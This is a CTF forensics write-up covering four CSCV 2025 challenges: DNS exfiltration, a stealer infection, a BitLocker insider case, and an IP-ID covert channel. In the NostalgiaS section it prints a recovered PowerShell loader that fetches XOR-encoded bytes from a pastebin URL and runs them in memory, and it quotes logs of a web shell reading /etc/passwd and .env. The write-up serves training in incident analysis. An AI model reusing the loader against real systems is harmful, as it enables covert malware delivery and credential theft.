




<h1 style="color:#059bff"> Before start </h1>

When I received the news that ASCIS would no longer be held, I was quite shocked. It’s a bit sad that a yearly competition - a way to test what I’ve learned over the past year - will no longer be held. Luckily, this year CSCV has taken ASCIS’s place - a new name, a new journey. Shout out to ASCIS and welcome CSCV!

Since I’ve been quite busy lately and lazy also hehe, <span style="color: red">this write-up will only be a brief summary </span> -> most of the detailed analysis and investigation process (especially for the harder Forensics challenges that require lots of time and direction-finding) will be *omitted*.
So for those just starting to play CTF - don’t be fooled by the short write-up; it’s not necessarily easy

Wishing everyone a great day - let’s begin!

## ~ DNS Exfil ~

### Detail

Total solve: **194 solves**

A mysterious intrusion occurred in the company's internal Web Portal system, and there are signs that a hacker has stolen some data from the server. The administrator has now narrowed down the time frame and collected 03 files to serve the digital forensics investigation process. Based on the analysis of the log files and network packets - you must follow the trail, piece together the disjointed fragments, and recover the secret data that was stolen. Hidden deep inside is the FLAG you need to find.

### Solution

Let's begin with `access.log`


Attacker try cat flag by using RCE but there is error 403 (Forbidden)

Continue with `error.log`


```
2025/10/10 09:26:00 [notice] 1224#0: *5200 PHP Notice:  upload-media.php: received file 'getfile.php' from 192.168.13.37, moving to /var/www/html/media/getfile.php, client: 192.168.13.37, server: portal.local, request: "POST /admin/upload-media.php HTTP/1.1", host: "intra.portal.local"
2025/10/10 09:26:03 [error] 1224#0: *5210 FastCGI sent in stderr: "PHP Fatal error:  Uncaught Exception: Debug mode enabled in /var/www/html/media/getfile.php:41\nStack trace:\n#0 /var/www/html/media/getfile.php(21): build_key()\n#1 {main}\n  thrown" while reading response header from upstream, client: 192.168.13.37, server: portal.local, request: "GET /media/getfile.php?debug=true HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:03 [error] 1224#0: *5210 FastCGI sent in stderr: "PHP Notice:  DEBUG VARS: APP_SECRET=F0r3ns1c-2025-CSCV; DATE_UTC=20251010" while reading response header from upstream, client: 192.168.13.37, server: portal.local, request: "GET /media/getfile.php?debug=true HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:03 [error] 1224#0: *5210 FastCGI sent in stderr: "PHP Notice:  H=SHA256(APP_SECRET); AES_KEY=H[0..15]; AES_IV=H[16..31]" while reading response header from upstream, client: 192.168.13.37, server: portal.local, request: "GET /media/getfile.php?debug=true HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:08 [warn] 1224#0: *5300 FastCGI sent in stderr: "PHP Deprecated:  Required parameter $request follows optional parameter $opts in /var/www/html/vendor/guzzlehttp/guzzle/src/Client.php on line 112" while reading response header from upstream, client: 172.20.9.10, server: portal.local, request: "GET /api/v1/messages HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:09 [warn] 1224#0: *5301 FastCGI sent in stderr: "PHP Deprecated:  Required parameter $request follows optional parameter $opts in /var/www/html/vendor/guzzlehttp/guzzle/src/Client.php on line 112" while reading response header from upstream, client: 172.20.9.124, server: portal.local, request: "GET /api/v1/messages HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:10 [notice] 1224#0: *5220 PHP Notice:  getfile.php served "/etc/passwd" to 192.168.13.37, client: 192.168.13.37, server: portal.local, request: "GET /media/getfile.php?file=/etc/passwd HTTP/1.1", host: "intra.portal.local"
2025/10/10 09:26:10 [warn] 1224#0: *5302 FastCGI sent in stderr: "PHP Deprecated:  Required parameter $request follows optional parameter $opts in /var/www/html/vendor/guzzlehttp/guzzle/src/Client.php on line 112" while reading response header from upstream, client: 172.20.9.154, server: portal.local, request: "GET /api/v1/messages HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:11 [warn] 1224#0: *5303 FastCGI sent in stderr: "PHP Deprecated:  Required parameter $request follows optional parameter $opts in /var/www/html/vendor/guzzlehttp/guzzle/src/Client.php on line 112" while reading response header from upstream, client: 172.20.9.239, server: portal.local, request: "GET /api/v1/messages HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:12 [notice] 1224#0: *5221 PHP Notice:  getfile.php served "/flag" to 192.168.13.37, client: 192.168.13.37, server: portal.local, request: "GET /media/getfile.php?file=/flag HTTP/1.1", host: "intra.portal.local"
2025/10/10 09:26:12 [warn] 1224#0: *5304 FastCGI sent in stderr: "PHP Deprecated:  Required parameter $request follows optional parameter $opts in /var/www/html/vendor/guzzlehttp/guzzle/src/Client.php on line 112" while reading response header from upstream, client: 172.20.9.148, server: portal.local, request: "GET /api/v1/messages HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:13 [warn] 1224#0: *5305 FastCGI sent in stderr: "PHP Deprecated:  Required parameter $request follows optional parameter $opts in /var/www/html/vendor/guzzlehttp/guzzle/src/Client.php on line 112" while reading response header from upstream, client: 172.20.9.8, server: portal.local, request: "GET /api/v1/messages HTTP/1.1", upstream: "fastcgi://unix:/run/php/php8.2-fpm.sock:", host: "intra.portal.local"
2025/10/10 09:26:14 [notice] 1224#0: *5222 PHP Notice:  getfile.php served "/var/www/html/.env" to 192.168.13.37, client: 192.168.13.37, server: portal.local, request: "GET /media/getfile.php?file=/var/www/html/.env HTTP/1.1", host: "intra.portal.local"
```

We see that `upload-media.php` receives file named `getfile.php` from `192.168.13.37` and stores it at `/var/www/html/media/getfile.php`. And it served successfully the `flag` file. So attacker using it to return file contents without restriction

Below, we can see the key was leaked via debug

```
H = SHA256("F0r3ns1c-2025-CSCV")

AES_KEY = H[0..15]

AES_IV = H[16..31]
```

Continue with PCAP file. All packet is DNS. Let's investigate suspicious DNS name first


We confirmed that the attacker exfiltrated the data (flag) via DNS queries. Let's extract and decrypt it with Key, IV we knew before

SHA256("F0r3ns1c-2025-CSCV") -> Hex: `5769179ccdf950443501d9978f52ddb51b70ca0d4f607a976c6639914af7c7a6`

AES key is first 16 bytes -> Hex: `5769179ccdf950443501d9978f52ddb5`

IV is last 16 bytes -> Hex: `1b70ca0d4f607a976c6639914af7c7a6`



### Flag

`CSCV2025{DnS_Exf1ltr4ti0nnnnnnnnnnNN!!}`

---

---

---

## ~ NostalgiaS ~

### Detail

Total solve: **66 solves**

The CIRT received an IR request from FAIZ Company regarding their accountant, Mr. Kadoya. Threat Intelligence reported that his sensitive data was exfiltrated and sold on the black market. Digital evidence from his workstation was collected for analysis. Examine it to determine the scope, impact, and root cause of the compromise.

### Solution

Check the Powershell log, we see the suspicious activity



The command download and execute a file from `https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt`

Access it we have


We see that the code execute the script which is decoded and decompress. Let's extract it



```powershell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()
    
    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }
    
    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }
    
    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }
    
    $assembly = [System.Reflection.Assembly]::Load($originalBytes)
    
    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod($MethodName, [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public)
        $methodInfo.Invoke($null, $null)
    }
    
} catch {
    exit 1
}
```

After access the pastebin link, we know that it contain hex list. The code builds a byte array and xor byte with `0x24`, load it as a .NET assembly in memory and invoke.

Let's save the file from pastebin extract the dll

```python
i = open("90qeYSHA.txt","r",encoding="utf-8").read().split(",")
o = bytes(int(x,16)^0x24 for x in b)
open("out.dll","wb").write(o)
```

Because it is .NET code so load it in DnSpy, IlSpy,... to analyse. This is Stealer, there are function to add persistence, BrowserDataCollector, exfil through Discord webhook. However, I have focus on class `SystemSecretInformationCollector`

```cs
public class SystemSecretInformationCollector
{
	private const string MagicChars = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";

	public string Collect()
	{
		StringBuilder stringBuilder = new StringBuilder();
		try
		{
			string text = DecodeMagicToString("AuEcc3iNuamB9JOyfS1pel55JqxgJ83");
			string machineName = Environment.MachineName;
			string text2 = DecodeMagicToString("sA0m1sPHdceUL6HSvGAbFuhN");
			string registryValue = GetRegistryValue();
			string value = text + machineName + "_" + text2 + registryValue + "}";
			stringBuilder.Append(value);
		}
		catch (Exception ex)
		{
			stringBuilder.AppendLine($"Error: {ex.Message}");
		}
		return stringBuilder.ToString();
	}

	private string DecodeMagicToString(string input)
	{
		try
		{
			if (string.IsNullOrEmpty(input))
			{
				return string.Empty;
			}
			List<byte> list = new List<byte>();
			foreach (char value in input)
			{
				int num = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".IndexOf(value);
				if (num < 0)
				{
					return "Invalid character";
				}
				int num2 = num;
				for (int num3 = list.Count - 1; num3 >= 0; num3--)
				{
					int num4 = list[num3] * 62 + num2;
					list[num3] = (byte)(num4 % 256);
					num2 = num4 / 256;
				}
				while (num2 > 0)
				{
					list.Insert(0, (byte)(num2 % 256));
					num2 /= 256;
				}
			}
			int j;
			for (j = 0; j < list.Count && list[j] == 0; j++)
			{
			}
			if (j >= list.Count)
			{
				return string.Empty;
			}
			byte[] array = new byte[list.Count - j];
			for (int k = 0; k < array.Length; k++)
			{
				array[k] = list[j + k];
			}
			return Encoding.ASCII.GetString(array);
		}
		catch (Exception ex)
		{
			return "Decode error: " + ex.Message;
		}
	}

	private string GetRegistryValue()
	{
		try
		{
			using (RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\hensh1n"))
			{
				if (registryKey != null)
				{
					object value = registryKey.GetValue("");
					if (value != null)
					{
						return value.ToString();
					}
				}
			}
			return "Registry key not found";
		}
		catch (Exception ex)
		{
			return "Registry error: " + ex.Message;
		}
	}
}
```

We have special string

`value = text + machineName + "_" + text2 + registryValue + "}"`

After I decode `text` and `text2` by using provided code, I have

- `text`: `CSCV2025{your_computer_`

- `text2`: `has_be3n_kicked_by`

So it's the flag, we have to find the value of machineName and registryValue. 

- machineName: We can find it through `SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName` -> `DESKTOP-47ICHL6`

- registryValue: Read the code above we know that the value of it is value of key on `HKCU\SOFTWARE\hensh1n` -> `HxrYJgdu`

And the have the completed flag

### Flag

`CSCV2025{your_computer_DESKTOP-47ICHL6_has_be3n_kicked_byHxrYJgdu}`

---

---

---

## ~ Case AlphaS ~

### Detail

Total solve: **31 solves**

An insider incident has been identified at V Company. Please investigate the case and decrypt the seized external drive to determine which confidential data may have been exfiltrated. Read ReadMe.pdf for more context. Wrap your flag in: CSCV2025{}

`Readme.pdf`: 

Dear Investigator,

As of 04/10/2025 21:08:53, our incident response team successfully contained evidence related to an insider incident at V Company.

During the initial phase of the investigation, the suspect was apprehended at Café Robina in Little Havana while attempting to sell confidential company information to a member of the Triads gang. Both his computer hard drive and an external drive were seized. Preliminary review indicates that the external drive is encrypted with BitLocker, and at this time we do not possess the password or the recovery key since his USB was destroyed.

We kindly request your urgent support in examining this case and assisting with the decryption and analysis of the seized devices.

### Solution

**! As mentioned before, because I'm `lazy` heheheheehe, I only mentioned the way to lead to the flag directly. I won't mention too much about the side analysis/investigate process.**

First, we can find the recover key of bitlocker disk in LevelDB logfile for ChatGPT Desktop app. It is on `C:\Users\windows\AppData\Local\Packages\OpenAI.ChatGPT-Desktop_2p2nqsd0c76g0\LocalCache\Roaming\ChatGPT\IndexedDB\https_chatgpt.com_0.indexeddb.leveldb\000003.log`


Using this we can unlock Bitlocker. Inside it, we have `secret.zip` and we have to find password to access it


We can find the password in the LevelDB logfile for SimpleNote (Same technique as how we found the key above). It's on `C:\Users\windows\AppData\Local\Packages\22490Automattic.Simplenote_9h07f78gwnchp\LocalCache\Roaming\Simplenote\IndexedDB\file__0.indexeddb.leveldb\000003.log`


Extract it, and we have special things on `ssh.txt`

```
# access via vpn or proxy if you are blocked
https://pastebin.com/WciYiDEs

cff4c6f0b68c31cb
```

Access the pastebin with password, we can find the flag


### Flag

`CSCV2025{h3Y_Th!s_|5_jUs7_tH3_bE9IN|\|iNg_dc8fb5bdedd10877}`

---

---

---

## ~ CovertS ~

### Detail

Total solve: **20 solves**

Dang, I left my computer unlocked, and my friend said he had exfiltrated something to his machine. Luckily, I was capturing the network traffic at the time. Please help me analyze it and find out what secret he took.

### Solution

**! As mentioned before, because I'm `lazy` heheheheehe, I only mentioned the way to lead to the flag directly. I won't mention too much about the side analysis/investigate process.**

If we focus on Conversation tab, we will see the special thing



We see that 2 private ip send packets to each other. Filter it and we have another special thing: **Is there any case where a private IP sends a packet to another private IP but all packets have the same length?????**


After going through the packets, we see that the identification byte (ip.id) changes very abnormally and in the last packet we see the "tin hieu vu tru": "==" syntax

Extract all data and we will have the flag

```bash
tshark -r .\challenge.pcapng -Y "ip.addr==192.168.203.91 && ip.addr==192.168.192.1" -T fields -e ip.id > hex.txt
```


```
Hello everyone,
How are you doing? A very warm welcome to CSCV2025!

I'm really glad to see you here and I hope you're ready for an exciting event ahead. This CTF is all about challenging your skills, learning new tricks, and of course - having fun along the way. Consider this little message not as a challenge itself, but simply as my way of saying hello to all of you amazing players.

Take a moment, get comfortable, and enjoy the ride. Whether you're here to compete fiercely, to learn something new, or just to have a good time, I hope CSCV2025 will be an unforgettable experience for you (not this challenge, pls forget this sh*t O_O)

And now, without keeping you waiting any longer...

(someone accidentally sent my chal via email so here is your new flag:)

CSCV2025{my_chal_got_leaked_before_the_contest_bruh_here_is_your_new_flag_b8891c4e147c452b8cc6642f10400452}

^_^ sry for the mess
```

### Flag

`CSCV2025{my_chal_got_leaked_before_the_contest_bruh_here_is_your_new_flag_b8891c4e147c452b8cc6642f10400452}`

**The End**

**Thanks for reading ^___^ and see you at Final Round**

